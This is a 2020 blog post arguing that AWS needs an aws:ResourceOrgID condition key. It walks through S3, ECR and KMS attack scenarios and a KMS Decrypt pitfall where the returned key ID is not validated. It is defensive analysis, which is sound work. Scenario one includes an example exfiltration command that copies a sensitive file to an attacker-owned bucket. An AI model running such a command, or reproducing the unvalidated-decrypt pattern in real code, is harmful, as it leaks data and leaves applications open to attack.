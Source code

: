 ```yaml
---
layout: post
title:  AWS IAM needs aws:ResourceOrgID
date:   2020-09-29 12:12:52 +1000
categories: blog
---
```


## Background

In May 2018, AWS [released][aws-blog] a new IAM condition key, `aws:PrincipalOrgID`.
This was a game-changer for improving security posture as it made the dream of
extremely granular AWS accounts that much more achievable. I won't go into
detail on why it was so useful as I'm sure others have written much better
explanations than I could.

The existence of `aws:PrincipalOrgID` made writing some _resource_-based policies
much easier. In the same theme, a hypothetical `aws:ResourceOrgID` condition key
would be extremely useful for _identity_-based policies, service control policies
and VPC endpoint policies. I'm not alone in thinking this. For example, in
Square's [blog post][square-blog] on adoption of VPC endpoints they wrote this:

> There is a limit of 20,480 characters on VPC Endpoint Policies. While this may 
> suffice for most use-cases, at Square we currently have close to 200 AWS accounts 
> and are expected to add hundreds more AWS accounts as more teams build in the 
> cloud. We calculated that with our policy specification, we cannot list more 
> than approximately 800 AWS accounts. In order to monitor this we have a graph 
> of the VPC Endpoint Policy text sizes (in number of characters) and have an 
> alarm set if that reaches into the ten thousand characters.
>
> If AWS offers a `aws:ResourceOrgID` IAM conditional context key, similar to 
> the `aws:PrincipalOrgID` conditional context key, we would not have to manually 
> list AWS accounts in the resources section.

Additionally, this is a frequent topic of ~~complaining~~ discussion in the
Cloud Security Forum:

![screenshot](/assets/2020-09-29-cloudsecurityforum.png)

## Arguments for aws:ResourceOrgID

Something to keep in mind is that these scenarios may seem trivial to fix: it's
a matter of "duh, don't do that thing" and that is indeed often true of the
demographics that might read this blog. But there are large orgs that have
hundreds to thousands of developers of *significantly* differing levels of
AWS proficiency. That's where an SCP like the following can be exceedingly
useful:

```json
{
    "Effect": "Deny",
    "Action": "kms:Decrypt",
    "Condition": {
        "StringNotEquals": {
            "aws:ResourceOrgID": "o-my-org-id"
        }
    }
}
```

Scenario one: Imagine a scenario wherein an attacker has gained control of an 
EC2 instance with an IAM policy that has `s3:PutObject` permissions on `*` 
resources. The attacker could exfiltrate data to a bucket that they own by 
running `aws s3 cp sensitive-file s3://attacker-bucket/`. This usually should 
be prevented by being explicit about buckets that it has write access to. But
for argument's sake, it needs unbounded access. This could be made safer by
adding a condition that the instance role can only write to buckets owned by
the org.

Scenario two: An attacker can trivially circumvent the protection in scenario
one by using their own access key ID instead of the instance's to perform the 
file upload. This is where the condition key would be useful in a VPC endpoint:
any same-region traffic to S3 could be restricted to buckets owned by the org
by including an `aws:ResourceOrgID` condition key.

Scenario three: You are running a centrally-administered EKS/ECS cluster. Images
are stored in ECR repositories across the org. You want to prevent attackers from
specifying that an image hosted in an attacker-owned account should be run -
the condition key helps here too. Likewise with ECR VPC endpoint policies.

Scenario four: An attacker convinces your application to call `kms:Decrypt` on
an attacker-provided ciphertext that has been encrypted with a KMS CMK
owned by the attacker. The attacker's CMK has a key policy that grants `kms:Decrypt`
to `*` principals and your application has an IAM policy that grants `kms:Decrypt`
on `*` keys.

## The problem with KMS keys

I think scenario four warrants the most thought. In my (limited, anecdotal) 
experience AWS KMS is the service that suffers in terms of the ratio of
being poorly understood relative to how critical it is. There's also some
unfortunate gotchas in the user experience that make security issues more likely.

The first issue concerns the relationship between KMS key IDs, key aliases and
IAM principal policies. When you _use_ a KMS key, you're usually calling one
of the KMS APIs (like `Decrypt`, `Encrypt`, etc) with a key *alias*, e.g.:

```javascript
    kmsClient.encrypt({ 
        Plaintext = someSensitiveUserData, 
        KeyId = "alias/MyEncryptionKey" 
    })
```

This is a much more pleasant dev experience than passing in a key ID, which is
an opaque GUID. This is doubly the case if you are using multiple AWS regions
and/or multiple AWS accounts: it's very tempting to use the same alias in
each environment so you don't need to make your code configurable.

Where this experience falls down is in assigning permissions. The first thing
a developer will try is the following IAM policy statement:

```yaml
- Effect: Allow
  Action: [kms:Encrypt, kms:Decrypt]
  Resource: !Sub arn:aws:kms:${AWS::Region}:${AWS::AccountId}:alias/MyEncryptionKey
```

This will fail. The resource must be the **key ID**. So what are they going to 
do? They have a few lousy options:

* Make the key ID a template parameter. This now makes instantiating the template
  more annoying.
* Add all the key IDs to a `Mappings` section. This now makes the `Resource` field
  more effort _and_ uglier. You might call this petty, but would you say developers
  aren't petty?
* Change the statement to be `Resource: "*"`. And why wouldn't they? It's substantially
  easier, guaranteed to work and the attack scenarios aren't immediately apparent. 
  How insecure could it be when the key alias is hardcoded in the app?

The issue only arises when the app later calls `kms:Decrypt` if the ciphertext
is provided by the user. The issue is that an attacker can provide a ciphertext
encrypted with *their* key. `kms:Decrypt` supports an *optional* `KeyId` 
parameter, but 99% of the time I see the following usage:

```javascript
    const resp = await kmsClient.decrypt({ CiphertextBlob = someCiphertextString });
    const decrypted = resp.Plaintext;
    // some code that uses the decrypted value
```

This works because the key ID is encoded into the ciphertext blob returned by
`kms:Encrypt`. It's very handy because you don't need to record the key ID alongside
the encrypted data! And it's typically pretty secure, because if an attacker 
tries to modify the ciphertext, it becomes invalid and returns and error as
the cipher is authenticated. This in combination with the hardcoded encryption
key will lead most developers to feeling confident in the security of the system
as-is.

But that authentication **counts for nothing** if you don't validate that the 
`resp.KeyId` matches the `KeyId` that you passed to the `kms:Encrypt` API call.

I suspect that this problem is more likely to occur than you might first guess.
Think of scenarios like a Dropbox app, where the backend encrypts users' files
that are then stored on users' machines. The authenticated nature of the ciphertext
would lead most reasonable developers to believe the data is tamper-proof.

It's for this reason that I think an `aws:ResourceOrgID` condition key would be
extremely useful for AWS Organization SCPs: to deny the very uncommon scenario
of cross-org encryption/decryption. In the unlikely scenario that is part of
your workflow, it can always be narrowed down to not deny usage of cross-org
keys by suitably tagged IAM principals.

## You're wrong

I probably am wrong. Or maybe I've misestimated the likelihood of something. Or
very likely: I've not considered another great reason why this would be a wonderful
new condition key. Please reach out to me on Twitter and share your thoughts.

[aws-blog]: https://aws.amazon.com/blogs/security/control-access-to-aws-resources-by-using-the-aws-organization-of-iam-principals/
[square-blog]: https://developer.squareup.com/blog/adopting-aws-vpc-endpoints-at-square/
